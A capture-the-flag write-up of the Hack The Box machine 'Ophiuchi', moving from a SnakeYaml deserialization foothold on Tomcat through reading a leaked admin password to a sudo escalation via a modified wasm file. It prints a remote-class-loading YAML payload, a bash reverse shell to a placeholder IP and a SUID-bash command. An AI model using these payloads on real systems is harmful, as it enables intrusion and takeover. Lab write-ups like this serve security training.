








<p align="center"></img></p>
<p align="center">Creator: <a href="https://app.hackthebox.eu/profile/27390">felamos</a></p>

# Personal thoughts
A box which is an exact example for medium boxes. Really enjoyed solving it and learned new things as expected. As usually, I tried to explain the steps as simple as I can. Hope you'll find it useful; if so, consider [suporting](https://www.buymeacoffee.com/f4T1H21) a student to get `OSCP` exam and __+respecting my profile in HTB__.

<a href="https://app.hackthebox.eu/profile/184235">
  
  </img>
</a>
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  
  </img>
</a>
<br><br>
Now, let me get right into it.

---

# Reconnaissance
Let's start with our recon dude, `nmap`:
```bash
nmap -sS- sC -sV -p- 10.10.10.227
```
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Here the only tcp port open apart from `22/ssh` is `8080/http`. Let's have a look at 8080 then!

## 8080/http

I found an [article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) about exploiting `snakeyaml deserialization`. This might related to our case.

The artice explains exploiting the following case step by step:

```
Yaml yaml = new Yaml();
Object obj = yaml.load(<--user input data-->);
```
>In the above snippet, the vulnerable code is the highlighted(in bold) one.
<br><br>So during a secure code review of java application if we encounter yaml.load function being used with user input directly being passed to the function, then the application can be vulnerable to deserilization vulnerability which can lead to remote code execution.

Let's try if it works then!

_The payload which can be found from the article:_
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://YOUR_IP_HERE/"]
  ]]
]
```
Open an http server and give the above payload to parser, want to see result?



Output exactly matches with the article! We found what we're looking for.

# Foothold: SnakeYaml Deserialization

Here we can go with the github [repository]() in the article, we only need to change the following part with the command to be executed in the file `src/artsploit/AwesomeScriptEngineFactory.java`.



Then we compile our java file:

```bash
┌──(root💀f4T1H)-[~/…/ophiuchi/yaml-payload/src/artsploit]
└─> javac AwesomeScriptEngineFactory.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

After that create the `shell.sh` file and put a bash reverse shell, you can use following:
```bash
bash -c 'bash -i >& /dev/tcp/YOUR_IP_HERE/2121 0>&1'
```

The final folder structure should be look like this:
```bash
┌──(root💀f4T1H)-[~/hackthebox/ophiuchi/yaml-payload/src]
└─> tree                                         
.
├── artsploit
│   ├── AwesomeScriptEngineFactory.class
│   └── AwesomeScriptEngineFactory.java
├── META-INF
│   └── services
│       └── javax.script.ScriptEngineFactory
└── shell.sh

3 directories, 4 files
```
Open an http server in the src directory, start a nc listener on port `2121`, put the payload inside the text box and click parse.



And we got our reverse shell successfully!

# Privilege Escalation: WebAssembly formats

Before escalating our privileges to `root`, let's escalate to user `admin`.
<br> I mean, this escalation isn't that hard, password was one of the files in the /opt/tomcat/conf/ folder.

```bash
tomcat@ophiuchi:~$ cat conf/* | grep pass
# passed to checkPackageAccess unless the
# passed to checkPackageDefinition unless the
         analyzes the HTTP headers included with the request, and passes them
      <!-- Use the LockOutRealm to prevent attempts to guess user passwords
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
  you must define such a user - the username and password are arbitrary. It is
  them. You will also need to set the passwords to something appropriate.
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
            <xs:attribute name="password" type="xs:string" />
  <!--                       pass the result to this style sheet residing   -->
  <!--                       pass the result to this style sheet which is   -->
  <!--                        work-around various issues when Java passes   -->
  <!--                        headers passed to the CGI process as          -->
  <!--   passShellEnvironment Should the shell environment variables (if    -->
  <!--                        any) be passed to the CGI script? [false]     -->
        <mime-type>application/vnd.blueice.multipass</mime-type>
tomcat@ophiuchi:~$
```

Checking our super-user permissions with `sudo -l` gives the following:
```bash
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
admin@ophiuchi:~$
```

__/opt/wasm-functions/index.go__
```go
package main

import (
	"fmt"
	wasm "github.com/wasmerio/wasmer-go/wasmer"
	"os/exec"
	"log"
)


func main() {
	bytes, _ := wasm.ReadBytes("main.wasm")

	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()
	init := instance.Exports["info"]
	result,_ := init()
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
	} else {
		fmt.Println("Ready to deploy")
		out, err := exec.Command("/bin/sh", "deploy.sh").Output()
		if err != nil {
			log.Fatal(err)
		}
		fmt.Println(string(out))
	}
}
```

An interesting file, isn't it?<br>
Okay, this file basically looks for a value in the byte contents of `main.wasm` file. If that value equals to `1`, then it executes the `deploy.sh` file.

- No path mentioned for the files!
- We can read the `/opt/wasm-functions/main.wasm` file!

The `wasm` keyword brings us another term, which is [`WebAssembly`](https://www.webassemblyman.com/wat_webassembly_text_format.html).
>WebAssembly has a binary format and a text format. The binary format (.wasm) is a compact binary instruction format for a stack-based virtual machine and is designed to be a portable compilation target for other higher-level languages such as C, C++, Rust, C#, Go, Python and many more. The text format (.wat) is a human readable format designed to help developers view the source of an WebAssembly module. The text format can also be used for writing codes that can be compiled to the binary format.

If you look at the big picture, you can see that we are supposed to convert this `main.wasm` file from `wasm` to `wat` format and change the value what `/opt/wasm-functions/index.go` is looking for. Which leads to the execution of `deploy.sh` file with `sudo` privileges!

Let's do that right now!

First translate the `main.wasm` file to your localhost (you can use http server with python), then use [this](https://webassembly.github.io/wabt/demo/wasm2wat/) site to convert `wasm` files to `wat` format.



You can see a value which is `0`, this might be what we're looking for. Let's try changing it to `1` and convert the modified `wat` to `wasm` again using [this](https://webassembly.github.io/wabt/demo/wat2wasm/) site.



We have our modified `main.wasm` file now, let's create a `deploy.sh` file with the content of giving `suid` permissions to bash.
```bash
echo "cp /bin/bash . && chmod +s ./bash" > deploy.sh
```

__Time to rock!__



And we successfully pwned the box...


# Closing
If you liked my writeup, consider [suporting](https://www.buymeacoffee.com/f4T1H21) a student to get `OSCP` exam and __+respecting__ my profile in HTB.

<a href="https://app.hackthebox.eu/profile/184235">
  
  </img>
</a>
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  
  </img>
</a>

# Resources
|`SnakeYaml Deserialization`|https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858|
|:-|:-|
|__`WebAssembly`__|__https://www.webassemblyman.com/wat_webassembly_text_format.html__|
|__`Wasm2Wat`__|__https://webassembly.github.io/wabt/demo/wasm2wat/__|
|__`Wat2Wasm`__|__https://webassembly.github.io/wabt/demo/wat2wasm/__|

<br>

___-Written by f4T1H-___
